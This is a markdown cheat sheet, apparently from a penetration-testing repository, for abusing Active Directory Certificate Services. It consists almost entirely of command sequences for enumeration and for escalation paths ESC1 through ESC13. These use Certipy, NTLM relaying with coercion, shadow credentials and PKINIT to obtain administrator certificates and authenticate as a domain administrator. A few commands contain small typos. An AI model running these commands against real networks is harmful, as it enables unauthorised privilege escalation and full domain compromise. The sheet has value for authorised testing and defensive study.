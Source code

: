 # Attacks
- [ESC1](#esc1)
- [ESC3](#esc3)
- [ESC4](#esc4)
- [ESC6](#esc6)
- [ESC7](#esc7)
- [ESC8](#esc8)
- [ESC9](#esc9)
- [ESC13](#esc13)

# Enumeration
### NetExec
Find PKI Enrollment Services in Active Directory and Certificate Templates Names
```
nxc ldap ip -u username -p password -M adcs
```
### Certipy
Search for vulnerable certificate templates
```
certipy find -u username -p password -dc-ip ip -target dc -enabled -vulnerable -stdout
```
### Certify
Search for vulnerable certificate templates
```powershell
Certify.exe find /vulnerable
```
# Attacks
## ESC1
```
addcomputer.py domain/username:password -computer-name computer_name -computer-pass computer_password
```
```
certipy req -u computer_name -p computer_password -ca ca -target domain -template template -upn administrator -dc-ip ip
```
Or
```
certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip
```
> Sometimes if you run certipy and see `Minimum RSA Key Length              : 4096`, you need to provide `-key-size 4096` to certipy
```bash
certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip -key-size 4096
```
```
certipy auth -pfx administrator.pfx -domain domain -username username -dc-ip ip
```
## ESC3
```
certipy req -username username -password password -ca ca -target domain -template template
```
```
certipy req username -password password -ca ca -target domain -template User -on-behalf-of 'domain\administrator' -pfx pfx_file
```
```
certipy auth -pfx administrator.pfx -dc-ip ip
```
## ESC4
```
certipy template -username username -password password -template template -save-old -dc-ip ip
```
```
certipy req -u username -p password -dc-ip ip -ca ca -target dc -template template -upn administrator
```
```
certipy auth -pfx administrator.pfx -domain domain -username administrator -dc-ip ip
```
## ESC6
```
certipy req -username administrator@domain -password password -ca ca -target domain -template template -upn administrator
```
## ESC7
```
certipy ca -ca ca -add-officer username -username username@domain -password password -dc-ip ip -dns-tcp -ns ip
```
```
certipy ca -ca ca -enable-template SubCA -username username@domain -password password -dc-ip ip -dns-tcp -ns ip
```
```
certipy req -username username@domain -password password -ca ca -target ip -template SubCA -upn username@domain
```
```
certipy ca -ca ca -issue-request request_ID -username username@domain -password password
```
```
certipy req -username username@domain -password password -ca ca -target ip -retrieve request_ID
```
```
certipy auth -pfx pfx_file -domain domain -username username -dc-ip ip
```
## ESC8
```
ntlmrelayx.py -t http://domain/certsrv/certfnsh.asp -smb2support --adcs --template template --no-http-server --no-wcf-server --no-raw-server
```
```
coercer coerce -u username -p password -l ws_ip -t dc_ip --always-continue
```
```
certipy- auth -pfx administrator.pfx
```
## ESC9
```
certipy shadow auto -username username@domain -hashes :hash -account target_username
```
```
certipy account update -username username@domain -hashes :hash -user target_username -upn administrator
```
```
certipy req -username target_username@domain -hashes :target_hash -ca ca -template template -target $DC_IP
```
```
certipy account update -username username@domain -hashes :hash -user target_username -upn administrator
```
```
certipy auth -pfx administrator.pfx -domain domain
```
## ESC13
```
certipy req -u username -p password -ca ca -target domain -template template -dc-ip ip -key-size 4096
```
```
python3 gettgtpkinit.py -cert-pfx pfx_file domain/username ccache_file -dc-ip ip -v
```
# Resources
- https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
- https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-certificate-services/#adcs-enumeration
- https://vulndev.io/2023/07/01/vl-intercept-walkthrough/
- https://www.bulletproof.co.uk/blog/abusing-esc13-from-linux
- https://logan-goins.com/2024-05-04-ADCS/
- https://www.tarlogic.com/blog/ad-cs-esc7-attack/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-2/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-3/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-4/
# Tools
- https://github.com/ly4k/Certipy
- https://github.com/GhostPack/Certify